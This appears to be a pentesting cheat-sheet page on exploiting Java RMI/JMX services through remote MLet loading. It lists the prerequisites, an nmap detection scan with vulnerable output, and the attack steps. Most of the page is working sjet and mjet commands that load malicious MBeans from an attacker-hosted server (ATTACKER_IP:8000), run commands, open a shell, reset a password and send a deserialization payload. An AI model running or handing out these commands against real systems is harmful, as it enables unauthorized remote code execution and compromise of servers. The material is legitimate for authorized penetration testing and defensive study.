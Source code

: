 +++
title = "Java RMI"
date = '2022-10-16'
description = 'All about Java RMI techniques, methods, payloads, how/why/when they work.'
+++
# Java RMI

> The attacker can host a MLet file and instruct the JMX service to load MBeans from the remote host. 

## Exploitation

### Requirements
- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled


### Detection

```bash
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
* Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```bash
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH - 28 APR 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security - 26th March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
